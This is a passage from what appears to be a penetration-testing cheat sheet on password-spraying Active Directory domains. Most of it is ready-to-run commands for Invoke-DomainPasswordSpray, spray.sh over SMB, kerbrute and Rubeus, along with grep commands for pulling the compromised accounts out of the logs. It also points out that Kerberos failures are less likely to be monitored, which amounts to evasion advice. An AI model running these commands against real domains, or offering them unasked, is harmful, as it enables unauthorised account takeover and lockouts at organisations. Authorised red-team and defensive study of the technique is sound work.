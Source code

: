 An optional usernames list file can also be provided.

```
Invoke-DomainPasswordSpray -Force -Domain <DOMAIN> -Password <PASSWORD> -OutFile <OUTPUTFILE>
Invoke-DomainPasswordSpray -Force -Domain <DOMAIN> -PasswordList <PASSWORDS_FILE> -OutFile <OUTPUTFILE>
```

###### [Linux] Over SMB

`spray.sh` is a bash scrip that can be used to carry out Active Directory
passwords spraying. It will conduct the brute force over `SMB` using the
`rpcclient` utility.   

It can use the password policy of the domain as input to prevent accounts
lockout.

```
# "skipuu" option to skip trying the username as password
spray.sh -smb <DC_IP> <WORDLIST_USERS> <WORDLIST_PASSWORDS> <ATTEMPTS_PER_LOCKOUT_PERIOD> <LOCKOUT_PERIOD_IN_MINUTES> <DOMAIN> skipuu

# Example
spray.sh -smb 192.168.0.1 users.txt passwords.txt 1 35 SPIDERLABS
```

To retrieve the obtained accounts:

```
grep 'Authority Name' logs/spray-logs.txt
grep -v NT_STATUS_LOGON_FAILURE logs/spray-logs.txt
```

###### Over Kerberos

Note that log-on failures over Kerberos do not generate the classical Windows
Security Log `Event ID 4625: An account failed to log on`. Indeed, the failures
are logged as Windows Security Log `Event ID 4771: Kerberos pre-authentication
failed`, that have an higher chance of not being monitored. It will still
howerver increment the failed login count and lock out accounts.

`Rubeus` (Zer1to’s fork: https://github.com/Zer1t0/Rubeus) and `Kerbrute` can
be used to conduct passwords spraying attacks through Kerberos:

```
kerbrute passwordspray [--dc <KDC_IP | KDC_HOSTNAME>] <DOMAIN> <WORDLIST_USERS> '<PASSWORD>'
# Username and password combinations in the format username:password
kerbrute bruteforce [--dc <KDC_IP | KDC_HOSTNAME>] <DOMAIN> <WORDLIST_USERS_PASSWORDS>

Rubeus.exe brute /users:<WORDLIST_USERS> /passwords:<WORDLIST_PASSWORDS> /domain:<DOMAIN> /outfile:<RESULT_FILE>
```

--------------------------------------------------------------------------------

### References

https://social.technet.microsoft.com/Forums/ie/en-US/79978325-549e-42b3-a532-1e26775982bf/how-to-reset-badpwdcount-value?forum=winserverDS
